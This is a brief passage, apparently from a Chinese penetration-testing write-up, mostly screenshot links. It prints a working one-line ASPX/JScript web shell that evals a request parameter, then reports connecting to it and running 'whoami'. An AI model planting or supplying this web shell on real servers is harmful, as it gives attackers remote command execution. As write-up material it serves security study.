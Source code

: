 生成的木马内容：

<%@ Page Language="Jscript"%><%eval(Request.Item\["pass"\],"unsafe");%>

[![](assets/1705301733-01737c548487b53dff2288f16d9b5f59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140137-0c0a1c62-b110-1.png)

成功连接

[![](assets/1705301733-22597d13307efa503cfa2d9fa33871dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140146-11285088-b110-1.png)

命令行执行 whoami 是普通用户权限

[![](assets/1705301733-4a2f964924ca481e850017c95d760fc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140154-15eaff26-b110-1.png)
